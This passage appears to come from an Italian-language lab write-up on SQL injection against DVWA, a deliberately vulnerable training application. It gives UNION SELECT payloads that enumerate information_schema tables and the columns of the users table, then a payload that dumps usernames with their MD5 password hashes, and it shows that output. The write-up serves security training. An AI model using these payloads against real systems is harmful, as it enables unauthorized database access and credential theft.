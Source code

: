 ```sql
-1' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='dvwa' LIMIT 1,1 -- -
```

**Seconda tabella**:
```
Surname: guestbook
```

**Spiegazione componenti**:
- `information_schema.tables`: Tabella di sistema con metadati
- `WHERE table_schema='dvwa'`: Filtra per database specifico
- `LIMIT 0,1`: Prima tabella, `LIMIT 1,1`: Seconda tabella

#### Enumerazione Colonne

```sql
-1' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users' -- -
```

**Colonne identificate**:
```
user_id
first_name
last_name
user
password
avatar
last_login
failed_login
```

### Data Extraction

#### Dump Completo Utenti

```sql
-1' UNION SELECT user,password FROM users -- -
```

**Risultato completo**:
```
ID: -1' UNION SELECT user,password FROM users -- -
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
